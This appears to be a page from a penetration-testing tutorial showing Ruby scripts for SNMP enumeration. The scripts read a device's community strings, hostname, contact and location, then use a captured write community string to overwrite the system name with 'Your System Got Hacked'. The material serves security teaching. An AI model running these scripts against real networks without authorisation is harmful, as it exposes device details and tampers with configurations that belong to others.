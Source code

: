 # SNMP Enumeration
- Install ruby-snmp
```
gem install snmp
```

## Get Request
Miss configure an SNMP service would gives an attacker a huge mount of information. Let's to see you we can interact with the server to retrieve some info.

```ruby
# KING SABRI | @KINGSABRI
require 'snmp'

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')

# General info
puts "SNMP Version: " + manager.config[:version]
puts "Community: " + manager.config[:community]
puts "Write Community: " + manager.config[:WriteCommunity]


# Get hostname, contact and location
hostname = manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}       # manager.get("sysName.0").varbind_list[0]
contact  = manager.get("sysContact.0").each_varbind.map {|vb| vb.value.to_s}    # manager.get("sysContact.0").varbind_list[0]
location = manager.get("sysLocation.0").each_varbind.map {|vb| vb.value.to_s}   # manager.get("sysLocation.0").varbind_list[0]

# It would take an array of OIDs
response = manager.get(["sysName.0", "sysContact.0", "sysLocation.0"])
response.each_varbind do |vb|
    puts vb.value.to_s
end

```

> Note: the OID names are case sensitive


## Set Request
Sometimes we get luck and we get the private/management string of SNMP. At this moment we might be able to apply changes on the system, router, switches configurations.

```ruby
require 'snmp'
include SNMP

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')
# Config our request to OID
varbind = VarBind.new("1.3.6.1.2.1.1.5.0", OctetString.new("Your System Got Hacked"))
# Send your request with varbind our settings
manager.set(varbind)
# Check our changes
manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}
manager.close
```



<br><br><br>
---
[1]: https://github.com/hallidave/ruby-snmp/